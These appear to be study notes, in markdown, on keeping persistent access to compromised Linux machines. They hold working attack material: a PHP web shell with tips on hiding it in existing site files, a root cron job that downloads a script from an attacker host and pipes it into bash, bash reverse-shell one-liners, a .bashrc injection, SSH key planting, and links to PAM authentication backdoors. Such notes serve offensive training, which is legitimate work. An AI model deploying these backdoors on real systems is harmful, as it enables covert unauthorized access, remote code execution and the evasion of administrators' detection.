


# Linux Backdoors


## Introduction
- Backdoor - used to ensure consistent access to the target machine
    - Access whether it's rebooted, shutdown, etc.

## SSH Backdoors
- Consists of leaving our ssh keys in some user's home directory (preferrably the root user's home directory)
- Generate a set of ssh keys with ssh-keygen `ssh-keygen`
    - This creates one private key and one public key
- Now rename the public key to `authorized_keys`, change it's permissions with `chmod 600 id_rsa`, and go to `/root/.ssh` and leave the public key we generated there
    - If `.ssh` directory doesn't exist, create it with `mkdir .ssh`
- Login to the machine with `ssh -i id_rsa root@ip`
- Note: this backdoor isn't hidden at all, and anyone with the right permissions will be able to remove the public key

## PHP Backdoors
- Web root is usually located at `/var/www/html`
    - Whatever you leave here will be available for everyone to use in their browser
- You can leave a PHP backdoor in this directory
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
- This code uses `$_REQUEST`, so you can pass the cmd parameter through either GET or POST requests
- If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php
- If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/somedirectory/shell.php
- Make backdoor more hidden
    1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
    2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors
- See current cronjobs with `cat /etc/crontab`
- Set up a cron job on the target machine `* *     * * *   root    curl http://<attacker ip>:8080/shell | bash`
    - This will look continuously for the file named `shell` on your machine and run it with bash
- Create a file named `shell` on your machine that gives you a reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
- Now host it on your web server with `python3 -m http.server 8080`
- Whenever you want a reverse shell into the target machine, just listen with `nc -nvlp <port>`
- This backdoor isn't hidden because anyone can see it by looking inside /etc/crontab

## .bashrc Backdoors
- If a user uses bash as their login shell, the `.bashrc` file is executed when bash is run
- If a user uses bash on their system often, simply add this into their `.bashrc`: `bash -i >& /dev/tcp/<ip>/<port> 0>&1`
- Disadvantage is that you will have to always have your nc listener on because you don't know when the user will launch bash
- Pretty secretive because nobody things about checking their `.bashrc` file

## pam_unix.so Backdoors
- `pam_unix.so` is a file that is responsible for authentication
    - It uses `unix_verify_password` function to compare the user's hash from `/etc/shadow` to the one being supplied
- We simply need to change the code so that we have a special password that will log us into the system
- 
- 
- [Resource](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)
- [Resource](https://github.com/zephrax/linux-pam-backdoor)
